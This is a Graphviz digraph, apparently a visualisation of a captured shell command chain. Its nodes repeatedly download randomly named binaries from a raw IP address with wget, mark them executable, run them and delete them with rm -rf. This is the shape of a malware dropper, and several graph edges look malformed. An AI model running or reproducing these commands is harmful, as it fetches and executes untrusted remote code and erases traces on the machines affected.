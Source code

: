 digraph {
0 [label="wget http://94.177.207.27/M2HrBpz47j "];
0 -> 0
2 [label="chmod +x M2HrBpz47j "];
2 -> 4 [label=";,"];
4 [label="./M2HrBpz47j "];
4 -> 6 [label=";,"];
6 [label="rm -rf M2HrBpz47j "];
6 -> 8 [label=";,"];
8 [label="wget http://94.177.207.27/eCzhSya38p "];
8 -> 8
10 [label="chmod +x eCzhSya38p "];
10 -> 12 [label=";,"];
12 [label="./eCzhSya38p "];
12 -> 14 [label=";,"];
14 [label="rm -rf eCzhSya38p "];
14 -> 16 [label=";,"];
16 [label="wget http://94.177.207.27/4K2aq9DVt3 "];
16 -> 16
18 [label="chmod +x 4K2aq9DVt3 "];
18 -> 20 [label=";,"];
20 [label="./4K2aq9DVt3 "];
20 -> 22 [label=";,"];
22 [label="rm -rf 4K2aq9DVt3 "];
22 -> 24 [label=";,"];
24 [label="wget http://94.177.207.27/9jZzRzXfnK "];
24 -> 24
26 [label="chmod +x 9jZzRzXfnK "];
26 -> 28 [label=";,"];
28 [label="./9jZzRzXfnK "];
28 -> 30 [label=";,"];
30 [label="rm -rf 9jZzRzXfnK "];
30 -> 32 [label=";,"];
32 [label="wget http://94.177.207.27/ZKW9tLgzc8 "];
32 -> 32
34 [label="chmod +x ZKW9tLgzc8 "];
34 -> 36 [label=";,"];
36 [label="./ZKW9tLgzc8 "];
36 -> 38 [label=";,"];
38 [label="rm -rf ZKW9tLgzc8 "];
38 -> 40 [label=";,"];
40 [label="wget http://94.177.207.27/VYXp6gEhqM "];
40 -> 40
42 [label="chmod +x VYXp6gEhqM "];
42 -> 44 [label=";,"];
44 [label="./VYXp6gEhqM "];
44 -> 46 [label=";,"];
46 [label="rm -rf VYXp6gEhqM "];
46 -> 48 [label=";,"];
48 [label="wget http://94.177.207.27/cMb7LZDm2h "];
48 -> 48
50 [label="chmod +x cMb7LZDm2h "];
50 -> 52 [label=";,"];
52 [label="./cMb7LZDm2h "];
52 -> 54 [label=";,"];
54 [label="rm -rf cMb7LZDm2h "];
54 -> 56 [label=";,"];
56 [label="wget http://94.177.207.27/cwqGUFAW6m "];
56 -> 56
58 [label="chmod +x cwqGUFAW6m "];
58 -> 60 [label=";,"];
60 [label="./cwqGUFAW6m "];
60 -> 62 [label=";,"];
62 [label="rm -rf cwqGUFAW6m "];
62 -> 64 [label=";,"];
64 [label="wget http://94.177.207.27/7WRyJBjpbX "];
64 -> 64
66 [label="chmod +x 7WRyJBjpbX "];
66 -> 68 [label=";,"];
68 [label="./7WRyJBjpbX "];
68 -> 70 [label=";,"];
70 [label="rm -rf 7WRyJBjpbX "];
70 -> 72 [label=";,"];
72 [label="wget http://94.177.207.27/rVt5ns7JfP "];
72 -> 72
74 [label="chmod +x rVt5ns7JfP "];
74 -> 76 [label=";,"];
76 [label="./rVt5ns7JfP "];
76 -> 78 [label=";,"];
78 [label="rm -rf rVt5ns7JfP "];
78 -> 80 [label=";,"];
80 [label="wget http://94.177.207.27/tNXgS89NFj "];
80 -> 80
82 [label="chmod +x tNXgS89NFj "];
82 -> 84 [label=";,"];
84 [label="./tNXgS89NFj "];
84 -> 86 [label=";,"];
86 [label="rm -rf tNXgS89NFj "];
86 -> 88 [label=";,"];
88 [label="wget http://94.177.207.27/8jYckVBU5j "];
88 -> 88
90 [label="chmod +x 8jYckVBU5j "];
90 -> 92 [label=";,"];
92 [label="./8jYckVBU5j "];
92 -> 93 [label=";,"];
}
